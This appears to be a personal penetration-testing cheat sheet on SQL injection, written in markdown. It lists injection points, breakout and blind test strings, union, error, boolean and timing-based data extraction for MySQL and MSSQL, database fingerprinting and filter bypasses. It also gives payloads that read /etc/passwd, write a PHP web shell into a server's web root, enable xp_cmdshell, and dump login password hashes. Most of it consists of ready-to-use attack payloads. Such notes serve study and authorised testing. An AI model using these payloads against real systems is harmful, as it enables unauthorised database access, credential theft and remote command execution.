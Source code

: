 ```yaml
---
title: SQL Injection
category: Web Application
order: 5
---
```


> **SQL Injection: Test Location and Strings**

**Pull usernames and passwords if successful**

**Test Locations:**
* GET URL query parameters
* POST parameters
* Cookie (session information)
* User-Agent

**Visable Test Strings:**
{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

**Methodology***

1. Determine injection point and how to break out:

{% highlight sql %}

SELECT info From users WHERE id = [UserInput]
SELECT info From users WHERE id = ' [UserInput] '
SELECT info From users WHERE id = " [UserInput] "
SELECT info From users WHERE (type='admin' AND id = [UserInput])

{% endhighlight %}

2. Use test strings like:

{% highlight sql %}

SELECT info From users WHERE id = 1
SELECT info From users WHERE id = -9999
SELECT info From users WHERE id = 1 AND 1=1
SELECT info From users WHERE id = 1 AND 'a'='a
SELECT info From users WHERE id = 1 AND 1=2
{% endhighlight %}

3. Exfiltration:

{% highlight sql %}
MySQL: 0 Union SELECT 'data' LIMIT [offset], [rows]
MSSQL: 0 UNION SELECT TOP [r] 'data' WHERE data_column not in (SELECT TOP [offset] 'data')
{% endhighlight %}

4. Error Based Exfiltration:

{% highlight sql %}
MYSQL: 1 AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT '[data]'), FLOOR(RAND(0)*2)) x from users group by x) a)
MSSQL: 1 and 1=convert(int, (SELECT '[data]'))
{% endhighlight %}

4. Boolean Based Exfiltration:

{% highlight sql %}
--Known data
if (((SELECT 'data') = 'password'), 1, 0)

--Binary Search Tree
MySQL: 1 AND ASCII(MID((SELECT 'data'),[c],1))>79
MSSSQL: 1 AND ASCII(SUBSTRING((SELECT 'data'),[c],1))>79

{% endhighlight %}

5. Timing based QUERY:

{% highlight sql %}
MySQL: IF ([condition], SLEEP([s]), 0)
MSSQL: 1 IF ([condition]) WAITFOR DELAY '0:0:[s]'
{% endhighlight %}

6. Side Channel

* Use file /OS operations to write to web root
* Write output to Samba file share

**Blind Test Strings:**

*Try the following to see if it provides valid results for text that was interpreted:*

Commenting out the end | <code> Brent' ;# <br> Dent' ;-- <br> Dent' ;-- - </code>
Commenting with semicolon | <code> Brent' or 29=29; # <br> Dent' or 29=29;-- <br> Dent' or 29=29;-- - </code>
Commenting without semicolon | <code> Brent' or 1=1 # <br> Dent' or 1=1-- <br> Dent' or 1=1-- - </code>
Inline Commenting | <code> Bre'/* */'nt </code>
Concatenation | <code> De''nt <br> De'||'nt </code>
Binary/Boolean | <code> Dent' and 1;# <br> Dent' and 1=1;# <br> Dent' and 0;# <br> Dent' and 1=0;# </code>
Sleep MySQL | <code> Sleep(10) </code>
Sleep MySQL2 | <code> id=1-sleep(10)  </code>
Sleep MySQL3 | <code> and (select Sleep(10) =0) </code>
Sleep MSSQL | <code> WAITFOR DELAY '0:0:10'  MSSQL </code> 

Math | <code> id=1-0 </code>


Determine the level of blindness:
{% highlight sql %}
Dent' AND 1;#
Dent' AND 1=1;#

Dent' AND 0;#
Dent' AND 1=0;#
#Look for differences
{% endhighlight %}

> **Online Tool to test syntax***

* [sqlfiddle](http://sqlfiddle.com/#!9/a6c585/51364)

> **SQL Injection: Database Identification**

MS SQL Server | Incorrect syntax near 'something'
MS SQL Server | <code> 'De'+'nt' </code>
MS SQL Server | <code> SELECT @@version  </code>
MS SQL Server | <code> @@pack_received </code>
MySQL | 'De' 'nt'
MySQL | <code> SELECT @@version  </code>
MySQL | <code> connection_id() </code>
Oracle | ORA-01756: quoted string not properly terminated
Oracle | <code> 'De'||'nt' </code>
Oracle | <code> BITAND(1,1) </code>
PostgreSQL | 5-digit Hex Error Code

> **SQL Injection: Database, Table, and Columns**

**MySQL:**

Database | schema_name FROM information_schema.schemata 
Table | table_name FROM information_schema.tables
Table from DB | table_name FROM information_schema.tables where table_schema='your_database_name'
Columns | column_name From information_schema.columns where table_name='users'

**SQL Server:**

Database | name FROM sys.databases 
Table | name FROM sys.tables 
Columns | name FROM sys.coumns

**Oracle DB:**

Database | owner FROM all_tables 
Table | table_name FROM all_tables 
Columns | column_name FROM all_tab_columns

> **SQL Injection Filter Bypass**

UTF-16 URL encoding for select and union:
%u0055Nion %u0053elect

Spaces:
union/**/select

Escaping Escapted Quotes (Single and Double):
{% highlight sql %}
313372, pd_description = (select schema_name FROM information_schema.schemata limit 1,1 union select LOAD_FILE(0x002F6574632F736861646F77) INTO outfile QUOTE(test.txt) limit 1,1), pd_description=QUOTE(1)
{% endhighlight %}

> **SQL Injection Union**

1) Once you have identified SQL injection, use order by or UNION select to determine the number of columns:
{% highlight sql %}
dent' and 'a'='a' ORDER BY 1; #
...until it breaks
dent' and 'a'='a' ORDER BY 5; #

Dent' UNION SELECT  NULL; #
..until it works
Dent' UNION SELECT  NULL, NULL, NULL, NULL; #
{% endhighlight %}

2) See which columns (e.g., numbers) are visable and correct data type (e.g., String/varchar) in the output. 
{% highlight sql %}
Dent' UNION SELECT  'X3Y2Z1', NULL, NULL, NULL; #
...until it works and visable in source (search for X3Y2Z1)
Dent' UNION SELECT  NULL, NULL, NULL, 'X3Y2Z1'; #
{% endhighlight %}

3) From the columns identified above, use one for the union. <br> *Note: It requires the same number of columns and compatable data type*
{% highlight sql %}
Dent' UNION SELECT  '1', '2', '3', info FROM information_schema.processlist; #
<br>
id=738 union select 1,2,3,null, table_name,5 FROM information_schema.tables where table_schema='webappdb';#
<br>
or use NULL since it is compatable with everything
<br>
Dent' UNION SELECT NULL, NULL, NULL;--
<b>
jeremy'+union+select+concat('The+password+for+',username,'+is+',+password),mysignature+from+accounts;+--+
{% endhighlight %}

> **Blind SQL Injection Data Exfiltration**

Perform a binary search tree using substr: 

{% highlight sql %}
#Use
substr(([Query]),[Letter],[Word]) > "m"

substr((select table_name from information_schema.tables limit 1),1,1) > "m"
…
= "c"

{% endhighlight %}

> **Stacked Queries**

Allows multiple commands with a ';'  (Mostly MSSQL):
{% highlight sql %}
Dent' ;  CREATE TABLE exfil(data varchar(1000));-- 
{% endhighlight %}


> **Reading and Writing Files**

MySQL and MSSQL:
{% highlight sql %}
MySQL Reading:
Dent'+UNION+SELECT++'1'%2C+'2'%2C+'3'%2C+LOAD_FILE("%2Fetc%2Fpasswd")%3B+%23

MySQL Writing:
INTO OUTFILE 
http://10.11.1.35/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'

SQL Server Reading: 
BULK INSERT
{% endhighlight %}

> **MSSQL Enable xp_cmdshell, exploit, and exfil**

{% highlight sql %}
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
exec master..xp_cmdshell 'dir c:'; --
RECONFIGURE;
{% endhighlight %}

{% highlight sql %}
\\get database version
select @@version
\\get usernames and password hashes
SELECT name, password FROM master..sysxlogins
\\get databases
SELECT name FROM master..sysdatabases
use [db]
\\select tables from current db
SELECT name FROM sysobjects WHERE xtype = 'U'
\\Select tables from a database (eg msdb)
SELECT name FROM [db]..sysobjects WHERE xtype = 'U'
\\Select everything from table
SELECT * from [tablename]
{% endhighlight %}


> **SQL Injection Cheat Sheets**

* [websec](https://websec.ca/kb/sql_injection)
* [PentestMonkey](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [SQLInjection Wiki](http://www.sqlinjectionwiki.com)

